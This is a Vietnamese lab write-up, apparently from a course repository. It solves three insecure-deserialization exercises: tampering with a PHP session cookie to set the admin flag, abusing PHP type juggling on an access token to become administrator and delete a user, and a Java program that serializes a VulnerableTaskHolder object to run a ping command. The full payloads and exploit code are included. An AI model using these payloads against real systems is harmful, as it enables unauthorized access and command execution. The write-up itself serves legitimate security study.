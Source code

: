 # ltat_lab2
## Bài 7:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/8ec78c64-6948-45e6-858b-bee4f018de1e)


- Mục tiêu của bài này là xóa được user ```carlos``` .
- Trước hết mình phải login bằng user và pass được cho trước.
- Sau một hồi scan thì mình tìm được đường dẫn ```/admin``` .

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/c657e443-280e-40c4-8361-f27aafb68927)


- Có vẻ mình không thể vào được với người dùng bình thường.
- Check sơ qua cookie thì mình thấy một cookie có giá trị là ```session``` .
- Mình sẽ thử bật burpsuite lên để test thử.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/c00d99fd-d043-411b-a24d-d44b345fa787)


- Khi gửi req đến ```/admin``` server sẽ kiểm tra biến session của chúng ta, khi mình decode thử thì ra được một đối tượng là user.
- Điểm đáng chú ý ở đây là giá trị admin của session này đang là 0 ( do biến bool quyết định )
- Giờ mình chỉ cần chuyển nó về thành 1 và gửi req thì có thể bypass phần này.

  ![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/40464057-71cf-40b6-8ed0-984193eaf6f7)


- Giờ thì khi xóa user ```carlos``` chúng ta cũng sẽ làm tương tự.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/07f9b6f5-9609-46b2-aab2-94998f341e08)


```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d```

## Bài 8:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/40278edf-59b9-4757-b827-5918f469a98b)


- Bài này lúc đầu vào cũng giống bài trước nên mình sẽ vào thẳng phần session.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/78681bee-3415-44f3-bf0f-18b6d2670de1)



```O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f4fb8seskjly3qw37onpt6ujkprn1co7";}```

- Ở đây chúng ta có vài trường mới trong class User này đó là ```username``` và ```access_token```.
- Theo mình hiểu thì ```access_token``` là một trường dùng để kiểm tra xem class có bị sửa đổi gì hay không và nếu nó sai thì sẽ không cho ta truy cập.
- Còn về phần username thì ở đây bắt buộc phải là ```administrator``` .
- Mình đọc hint thì có vẻ bài này được viết trên PHP, và mình nghỉ ngay đến một lỗi trong quá trình so sánh kiểu dữ liệu của PHP đó là php type juggling.
- Từ những dữ kiện trên, mình đã đã tạo được một class mới với giá trị như sau.

```O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}```
- Với Class này, mình đã đổi tên của user và đồng thời ép kiểu dữ liệu của access_token là int với giá trị là 0. Điều này làm cho biến access_token sẽ bị lỗi và trả về giá trị đúng.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/77148656-91ab-4190-a383-3062ad41e0df)


- Vậy là mình đã bypass qua phần admin, bây giờ chỉ cần xóa User là solve được bài này.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/036cf3aa-e73e-4fa5-9418-85bcf3159af4)


```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9```

## Bài 9:

- Đây là một chall về JAVA, đề cho chúng ta một đoạn code có sẵn:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/9c63ccc9-23a1-4d64-9a7f-76473226e4b2)


- Ở đây chúng ta có một đoạn code đáng chú ý.
 
![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/0f68e543-f98e-4824-a01a-3e11b7035693)


- Class VulnerableTaskHolder sẽ truyền mọi taskAction mà ta truyền vào nó, điều này có nghĩa là chúng ta có thể tận dụng điểm này để truyền một câu lệnh nào đó vào đây.
- Mình sẽ viết một đoạn code để có thể tạo một token thực hiện lệnh ```ping``` .

```java

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;
import org.dummy.insecure.framework.VulnerableTaskHolder;


public class Program {
    public static void main(String args[]) throws Exception{
        VulnerableTaskHolder vulnObj = new VulnerableTaskHolder("ping","ping -n 4 127.0.0.1");
		
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(vulnObj);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(bos.toByteArray()));
    }
}
```

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/60b9c880-cbe8-4250-adb7-3744f28119d4)


-Đây là Token:
```rO0ABXNyADFvcmcuZHVtbXkuaW5zZWN1cmUuZnJhbWV3b3JrLlZ1bG5lcmFibGVUYXNrSG9sZGVyAAAAAAAAAAICAANMABZyZXF1ZXN0ZWRFeGVjdXRpb25UaW1ldAAZTGphdmEvdGltZS9Mb2NhbERhdGVUaW1lO0wACnRhc2tBY3Rpb250ABJMamF2YS9sYW5nL1N0cmluZztMAAh0YXNrTmFtZXEAfgACeHBzcgANamF2YS50aW1lLlNlcpVdhLobIkiyDAAAeHB3DgUAAAfnChQWOB41NIOieHQAE3BpbmcgLW4gNCAxMjcuMC4wLjF0AARwaW5n```

![393904979_776481387524809_6695519617529434868_n](https://github.com/TooBunReal/ltat_lab2/assets/89735990/e46f6d5b-4765-42d1-b78f-2b6d324799b1)


